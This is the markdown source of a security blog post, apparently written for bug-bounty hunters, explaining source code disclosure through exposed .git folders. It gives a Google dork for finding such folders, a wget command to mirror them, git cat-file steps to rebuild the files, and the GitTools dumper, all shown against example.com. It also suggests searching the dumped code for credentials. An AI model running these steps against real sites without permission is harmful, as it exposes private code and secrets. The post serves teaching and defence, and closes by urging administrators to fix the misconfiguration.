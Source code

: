 ```yaml
---
date: 2020-07-17 00:34:45
layout: post
title: "Insecure Source Code Management"
subtitle:
description: In this article, I will be explaining you the concept of a source code disclosure vulnerability and various risks associated with it.
image: /assets/img/uploads/source-code-disclosure/norris.png
optimized_image: /assets/img/uploads/source-code-disclosure/norris-optimized.png
category: exploitation
tags: source-code-disclosure bug-bounty
author: madhavmehndiratta
paginate: false
keywords: insecure source code management, source code disclosure, source code disclosure via .git folder, how to extract contents of .git folder, exploiting source code disclosure, infosec articles
---
```


## Introduction

When attacking an website, obtaining its source code can be extremely helpful for constructing an exploit. This is because many bugs, like SQL injections, are way easier to find using static code analysis as compared to black-box testing.
Obtaining a web application's source code also means getting a hold of all developer comments, hardcoded API keys, and all other sensitive data. So the source code of a web application should always be protected from public view. Many developers unknowingly upload the source code of their entire project to the internet, and this is where information leaks occur.

## Finding a .git Folder

<center><br><br>
<img src="/assets/img/uploads/source-code-disclosure/google-dork.png">
</center>
<br>
There are many ways by which you can find a .git folder. The most popular is by searching for the following Google Dork: 

`intitle:"Index of /.git"` 

If the directory listing is enabled, then you could directly browse the .git folder’s contents as shown in the image below.

<center><br><br>
<img src="/assets/img/uploads/source-code-disclosure/directory-listing.png">
</center>

Another way is bruteforcing the directories using opensource tools such as dirb or dirsearch. They both look for .git 		folder. If automated tools are not allowed, simply go to web-app/.git (e.g. https://example.com/.git) on a browser. If you get a 404 error, then .git/ doesn’t exist on the application. But in some cases if you get a 403 Forbidden error, then it does! but not directly accessible if directory listing is disabled on the server.

## Extracting the Files Manually

Once the existence of the Git folder is confirmed and directory listing is enabled, you can download it using wget by using:

```r
madhav@anton:~$ wget -r -np https://example.com/.git/
```

The next step is to locate the HEAD, and then extracting the master hash. Once you have the hash for the master branch, you can execute the following command: 

`git cat-file -p <master hash>` 

```r
madhav@anton:~/www.example.com/.git$ cat HEAD 
ref: refs/heads/master

madhav@anton:~/www.example.com/.git$ cat refs/heads/master 
1fae33780305157184cd5563dd7696d32be0d3c5

madhav@anton:~/www.example.com/.git$ git cat-file -p 1fae33780305157184cd5563dd7696d32be0d3c5
tree 546b9a0b104ec962ed4dce6154bf2022076cb9c9
parent 88e6c84c8dd8c38646772fb359866fcfcf8740e4
author Foo <example@gmail.com> 1583500079 +0100
committer GitHub <noreply@github.com> 1583500079 +0100
gpgsig -----BEGIN PGP SIGNATURE-----
 a9abJor19quHsI3ZWWcjOr0UnZ33sfIs8z0ITVV0O525j899LbmkIxLHmBnvgQ1y
 UeG5Js/OBaMBtv8j3Kbi4zzW+ETzvuqGGNSUXbv3OEEHRSaePkSQDiHwmpJAMCvC
 DmuFNwJpPL8T7hzX6jdM1r7i49KC70qooZKlx5+n9Y+0wHhSWWvEQmsJnl73oso9
 1wPYg3Qh+ImWvmOP2IDLuRG9qDd7uxd+Te09+CPnsjxF3n9lpbwlvJCievGY2DI=
 =lc27
 -----END PGP SIGNATURE-----

madhav@anton:~/www.example.com/.git$
```

This will give you the hash for the tree object which will lead you to the files of the project by executing the same command with the tree hash.

```r
madhav@anton:~/www.example.com/.git$ git cat-file -p 546b9a0b104ec962ed4dce6154bf2022076cb9c9
100755 blob 610cecd0bdab0faea045ef4f9bb861c862f7be03	LICENSE
100755 blob ec58df797c478eada515ea92bf3185ea6194edef	README.md
100644 blob 968a7233da85ea9edf0e56b223fe6ea1c6f1844e	cd.php
040000 tree 881998e68b54e759a8c06872aef8d5f4e9a08b39	css
100755 blob f4739221655f14501aa59da801d9708446bf01be	demo.php
100755 blob a5e1808b54ecf5119c4f8c2c3b868389f3fa6352	error.php
100755 blob 4061ddc0724b65ba54f6d1bbec4c4935e1f8649f	favicon.ico
040000 tree 979ce71e881e8e4fbf42da2cd547218f93daa4ea	font-awesome
040000 tree d8df5e7705085c10bffc38376394907b7514aa99	fonts
040000 tree 7a36fc98abdf572f629b85456e525242415dc76f	img
100755 blob f1c0edcfbd75ebad252dbeea4ab9c9df19712220	index.php
040000 tree bae3d0cfd5d74012d2fa35b9ccbfd74121d6f4d4	js
100755 blob 689d8cfad48fc2e0749ac0f2cb6786238d38287b	keybase.txt
040000 tree 444cc1c5c9c6a4bae757bc25adc9764f4a5a1485	less
100755 blob 2697029c1ba18340e044e6df68689548faed7a82	talks.php
madhav@anton:~/www.example.com/.git$
```
To extract the source code of the website into a compressed zip file, you can execute the following command:

```r
git archive --format zip --output "source.zip" <master-hash>
```

Now you will see a zip file named source.zip in the same directory. 

## Automating The Proccess

Browsing .git/ manually is good for proof of concept, but it is also a tedious job. If you want to retrieve as many files as possible, even with directory listing disabled, you can use the tool named <a href="https://github.com/internetwache/GitTools">GitTools.</a> 

```r
madhav@anton:~$ ./gitdumper.sh https://example.com/.git/ dest-dir/

git status          # To check the files that have changed
git checkout -- .   # To restore the files & download the directory
git log             # To see what other commits are there

```

Now you can analyze the local repository manually. Try to look for other vulnerabilities using static code analysis, or credentials, authentication tokens, new endpoints, etc.
## Conclusion

There are many famous websites which do not deny access to the .git/ folder therefore anyone can download their sourcecode and possibly other sensitive data. This issue is not hard to detect and mitigate, so take a minute to make sure that your webserver isn’t misconfigured.

That’s it! I hope you understood the concept of source code disclosure vulnerability and the risk associated with it. Thanks for reading. Stay tuned for similar tutorials and much more coming up in the near future!
If you have any queries, you can contact me <a href="/contact">here.</a>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/fabric8">Fabricio Rosa Marques.</a>